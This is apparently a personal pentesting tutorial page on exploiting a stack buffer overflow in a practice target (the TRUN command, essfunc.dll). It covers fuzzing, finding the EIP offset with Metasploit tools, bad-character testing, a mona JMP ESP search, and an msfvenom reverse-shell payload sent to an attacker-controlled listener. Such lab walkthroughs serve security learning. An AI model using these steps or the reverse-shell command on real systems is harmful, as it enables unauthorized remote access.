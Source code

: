 # Buffer Overflow

## Note: Entry Point Could Be Wrong

* the entry point with Immunity Debugger may not start at the actual start of the program, so you can search for strings from the program to find the entry point
* right click on the disassembly window and "Search For" -&gt; "All Referenced Text Strings" -&gt; Right Click

## Tools to Find Target Return Address

* First, copy the DLLs you want to attack, from the target machine to the attacking machine
* disassemblers
* msfpescan \(apart of the Metasploit framework\)

## First, Use a Python Script

* fuzz the command and find the byte value that it crashed the program with Immunity Debugger
* the python script will tell you when the app crashes and around what bytes

![](../.gitbook/assets/buffer-overflow-pic-0.png)

![](../.gitbook/assets/buffer-overflow-pic-1.png)

## Metasploit Module, Run Without Opening msfconsole

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 
#(3000 is the Byte value where the program crashed)
```

## Run it Again with the Python Script, but with the New Fffset

* notice how the "TRUN" command now has "/.:/" behind it
* this is because of we found that value within Immunity Debugger when we crashed it the first time

![](../.gitbook/assets/buffer-overflow-pic-2.png)

## Check Immunity Bugger for “EIP” to be overwritten with a Value

* take that value and run this new command
* this finds the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 386F4337
#(this -q value is what value was left within the EIP)
```

* it will give us the exact offset byte value, this example will be 2003

## Overwrite the EIP

* rewrite the script
* “A” \* 2003 is to overwrite the buffer up until the EPI
* “B” \* 4 is to confirm we have the right spot by putting in different values
* EAX and EBP should be all A's
* EPI should be all B's
* remember it is HEX CODE!

![](../.gitbook/assets/buffer-overflow-pic-3.png)

![](../.gitbook/assets/buffer-overflow-pic-4.png)

## Finding Bad Characters

* What characters are good and bad for the shell code?

```text
badChars = (
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f"
"\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f"
"\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f"
"\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f"
"\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f"
"\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f"
"\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf"
"\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf"
"\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
"\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
)
```

### Edit the script

![](../.gitbook/assets/buffer-overflow-pic-5.png)

* run the script and crash the program again, which is okay
* in the “Registers” section of Immunity Debugger, right click ESP and click "Follow in Hex Dump"
* Look for what is out of place, in this case, B0 is the odd one
* it should go in order, 01 02 03, etc.
* NULL BYTE = 00, IT IS ALWAYS A BAD CHARACTER. EVEN IF YOU FIND NO BAD CHARACTERS 00 IS ALWAYS BAD

![](../.gitbook/assets/buffer-overflow-pic-6%20%281%29.png)

## Finding the Right Module

* This is when you are looking for a DLL, or something similar, that has no memory protections
* “Mona Modules” on Github is a tool that is used to find the right place
* paste it in “This PC, C Drive, Program Files \(x86\), Immunity Inc, Immunity Debugger, PyCommands Folder”
* Now, on the bottom of Immunity Debugger, you search “!mona modules”
* look for a path that is attached to the program you are breaking, and also has FALSE for all memory protections

![](../.gitbook/assets/buffer-overflow-pic-7.png)

### Now we go to Kali Linux, to get the Jump Code

```bash
“locate nasm_shell”
“/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb”
```

* in the shell, type “JMP ESP”
* copy the results, which in this case is FFE4

### Go Back to Immunity Debugger and in the Bottom Search

```bash
!mona find -s ”\xff\xe4" -m essfunc.dll #<- essfunc.dll is the dll it found to be vulnerable
```

![](../.gitbook/assets/buffer-overflow-pic-8.png)

### It Displays Results, and Start at the Top and Go Down the List with the Following Steps

* go to Kali Linux and edit the Python script again
* keep in mind the Return Address

![](../.gitbook/assets/buffer-overflow-pic-9.png)

go back to Immunity Debugger, and click on the Blue Arrow next to the Red Arrows and type in the Return Address, then set a break point there \(F2 for Windows\)

* click play
* Run the new Python script, and notice how Immunity Bugger has paused. Congrats we control the EIP!

### Now use msfvenom to create a shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attack machine IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b ”\x00" #(f is filetype, a is architecture, b is bad characters and where you would put them)
```

* once executed, copy the “unsigned char buf\[\]” values without the semi-colon
* now, once again edit the Python script
* add a variable “overflow" to the top and paste in the values surrounded by \(\) parenthesis
* add padding and “overflow” to “shellcode”
* 32 is the padding value which can be lowered if working with small sizes \(padding makes the buffer overflow work better\)

![](../.gitbook/assets/buffer-overflow-pic-10.png)

* set up a Netcat listener with the same ports you put within “LPORT” with your shell code
* make sure the Terminal App is running, then run the Python script

## Resources

* [The Cyber Mentor's](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G) buffer overflow playlist
* [https://www.youtube.com/watch?v=OOkU7to0Ty4&ab\_channel=JesseK](https://www.youtube.com/watch?v=OOkU7to0Ty4&ab_channel=JesseK)
* [https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab\_channel=AnonVenus](https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab_channel=AnonVenus)

